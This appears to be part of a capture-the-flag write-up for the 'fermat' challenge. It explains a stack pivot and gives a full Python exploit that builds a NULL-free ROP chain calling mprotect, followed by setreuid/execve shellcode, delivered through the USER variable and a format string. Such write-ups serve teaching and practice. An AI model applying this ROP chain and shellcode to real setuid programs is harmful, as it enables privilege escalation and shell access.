 I slightly modified this approach because of these instructions in `main`:

![AltText](/media/images/icectffermat_4.JPG)

Following `leave`,
the value in memory pointed by `ecx - 4` is moved into `esp`. Luckily, we can control the content of `ecx`, since it is loaded in:
`mov ecx, DWORD PTR [ebp - 0x4]`, and `ebp` is already pointing to our fake stack.

The rest of the work has just been writing a ROPchain which didn't contain NULL bytes (that couldn't reside in `env`) -- but since the binary is statically linked, I have a whole load of ROP gadgets already linked to binary, found with `ropper` -- and carefully computing addresses inside and outside gdb. Here, the script to generate the payload, which I used in target machine with:

`USER=$(python exploit.py) ./fermat "%14\$hn"`

```
import struct

def p32(address):
  return struct.pack("I", address)

# To compute addresses to store args to mprotect
mprotect_base = 0xffff105c
# mprotect requires a page aligned boundary
stackpage_base = 0xffff1000
# setreuid(geteuid(), geteuid()) && execve("/bin//sh", NULL, NULL)
shellcode = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
shellcode += "\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


movdpedx = 0x08055a2b # mov dword ptr [edx], eax; ret
xoreax = 0x08049743 # xor eax, eax; ret
inceax = 0x0807f1bf # inc eax; ret
popedx = 0x08073bda # pop edx; ret
popeax = 0x080bd026 # pop eax; ret
mprotect = 0x8072c50 # address to mprotect

# The ropchain computes args to mprotect and pushes them
# to the right address in fake stack, which is after mprotect_base.
# mprotect_base is a value I have computed by trial, looking
# at where, after payload injection, mprotect address was loaded
# into fake stack.

ropchain = p32(popedx) + p32(mprotect_base + 4) + p32(popeax)
ropchain += p32(stackpage_base - 1) + p32(inceax) + p32(movdpedx)
ropchain += p32(popedx) + p32(mprotect_base + 8) + p32(xoreax)
ropchain += p32(inceax) + p32(movdpedx) + p32(popedx) + p32(mprotect_base + 12)
ropchain += p32(xoreax) + p32(inceax)*7 + p32(movdpedx) + p32(mprotect)
# mprotect_base + 16 points to the shellcode; we need to ret to it.
# BBBB*3 will be overwritten at runtime by movdpedx gadgets.
ropchain += p32(mprotect_base + 16) + "BBBB"*3


payload = "A"*6394  # Distance between 0xffff0000 - 0x4 and start of USER
payload += p32(0xffff1004) # address to load into esp + 0x4
payload += 'A'*4096 # JUNK
payload += ropchain
payload += shellcode
payload += 'A'*(30000 - len(payload)) # just because I used 30k to compute addresses and experiment.
print(payload)
```

